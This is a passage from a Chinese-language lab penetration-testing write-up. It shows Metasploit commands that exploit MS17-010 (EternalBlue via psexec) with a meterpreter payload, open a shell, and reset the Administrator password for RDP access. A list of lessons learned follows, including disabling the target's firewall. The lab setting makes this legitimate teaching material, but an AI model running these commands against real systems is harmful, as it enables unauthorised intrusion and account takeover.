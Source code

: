 msf5 &gt; use exploit/windows/smb/ms17_010_psexec<br>
msf5 exploit(windows/smb/ms17_010_psexec) &gt; set payload windows/meterpreter/bind_tcp<br>
msf5 exploit(windows/smb/ms17_010_psexec) &gt; set RHOST 192.168.33.33<br>
msf5 exploit(windows/smb/ms17_010_psexec) &gt; options<br>
msf5 exploit(windows/smb/ms17_010_psexec) &gt; run

[![](https://p5.ssl.qhimg.com/t017c00cab90e004033.png)](https://p5.ssl.qhimg.com/t017c00cab90e004033.png)

2、查看账户，直接修改账户密码，利用3389连接，注意要在SocksCap中运行连接远程桌面程序

meterpreter &gt; shell<br>
C:\Windows\system32&gt;net user<br>
C:\Windows\system32&gt;net user Administrator 123

[![](https://p5.ssl.qhimg.com/t01ed5f49d8f42e0408.png)](https://p5.ssl.qhimg.com/t01ed5f49d8f42e0408.png)



## 0x04 总结

到目前为止，三台靶机都已经拿下，这里推荐读者能够自己亲手尝试，找到里面的flag，其中所有flag的找寻方式，会在我的公众号“TeamsSix”推送，这里只讲述拿下三台靶机的方法。 这次的练习耗费了自己的大量时间，从靶场搭建到获取到第三层靶机的shell，这其中碰到的一些问题及我自己踩过的一些坑记录在下面：

1、蚁剑中查看一些文件会提示权限不足，在meterpreter中可以正常查看 2、蚁剑中在Target2里执行命令或者查看文件时不时会失败，初步判断是因为本地网络代理的原因，多试几次就行，总有一次是成功的 3、MSF中Socks5代理模块使用总是失败，Socks4a模块使用成功 4、MSF中建立的会话总是自动断开，将会话连接的靶机上的防火墙关闭即可 5、MSF中ms17010eternalblue模块利用总是失败，ms17010psexec模块使用成功 6、meterpreter中查看文件的路径和Windows下文件的路径里的“/”是相反的 7、meterpreter中上传文件大小貌似有限制，文件上传到8M左右就会提示失败，因此需要将文件压缩成多个小文件进行上传，同时上传7-zip工具（该工具只有1M大小），再利用7-zip对其解压即可，当然此方法仅适用于Windows，linux上的方法可以自行谷歌

参考文章：

http://zerlong.com/512.html

https://www.anquanke.com/post/id/170649

https://www.anquanke.com/post/id/164525

https://blog.csdn.net/qq_36711453/article/details/84977739

这些文章在很大程度上帮助了我这个菜鸟，在这里向以上文章的作者表示感谢。
